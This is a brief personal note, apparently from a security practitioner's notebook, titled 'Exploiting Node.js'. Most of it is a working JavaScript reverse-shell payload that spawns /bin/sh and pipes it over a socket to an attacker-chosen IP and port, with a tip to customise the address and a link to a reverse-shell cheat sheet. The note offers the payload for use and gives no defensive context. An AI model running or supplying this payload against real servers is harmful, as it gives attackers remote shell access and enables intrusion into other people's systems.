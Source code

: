 # Exploiting Node.js

* **author**:: Nathan Acks  
* **date**:: 2021-10-09

The hard part of popping a reverse shell on a Node.js server is tricking the server to load your code. If you can figure out how to do that, this seems to produce a reliable connection:

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){
		// Customize port and IP address above to taste
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents Node.js from crashing
})();
```

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
